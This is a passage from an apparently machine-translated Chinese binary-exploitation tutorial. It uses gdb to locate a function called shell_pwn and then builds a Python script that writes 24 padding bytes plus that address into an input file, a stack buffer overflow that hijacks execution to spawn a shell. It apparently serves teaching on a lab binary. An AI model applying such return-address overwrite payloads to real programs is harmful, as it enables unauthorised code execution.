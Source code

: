 ![](img/00245.jpeg)

第一条指令的地址是`0x000000000040060d`。此外，我们还可以使用`print`功能：

```
$ print shell_pwn
```

在以下屏幕截图中可以看到前面命令的输出：

![](img/00246.jpeg)

完美的现在，让我们构建我们的最终开发：

```
#!/usr/bin/python
 from struct import *

 buffer = ''
 buffer += 'a'*24
 buffer += pack("<Q", 0x00000040060d)
 f = open("input.txt", "w")
 f.write(buffer)
```

然后，执行它：

```
$ ./exploit.py
```
